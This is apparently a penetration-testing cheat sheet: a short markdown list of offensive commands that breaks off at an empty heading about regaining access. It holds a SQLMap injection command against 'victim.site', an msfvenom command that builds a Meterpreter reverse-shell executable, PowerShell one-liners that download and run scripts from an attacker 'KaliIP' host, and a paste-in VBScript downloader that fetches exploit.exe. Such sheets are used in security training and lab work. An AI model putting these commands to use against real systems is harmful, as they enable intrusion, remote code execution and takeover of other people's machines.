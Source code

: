 ## SQLMap
```
sqlmap -u 'http://victim.site/view.php?id=1141' -p id --technique=U
```
## Msfvenom
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> EXITFUNC=thread -f exe > shell.exe
```
## Powershell Downloader
```
IEX(New-Object Net.WebClient).downloadString('http://KaliIP:8000/Sherlock.ps1; Find-AllVulns')
or modded script
IEX(New-Object Net.WebClient).downloadString('http://KaliIP:8000/vulnSher.ps1')
```
## WGET vbs (copy and paste into shell)
```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs

note: wget.vbs should be 990 bytes
then cscript wget.vbs http://$KaliIP/exploit.exe exploit.exe

```
## How to replicate to otbain access again:
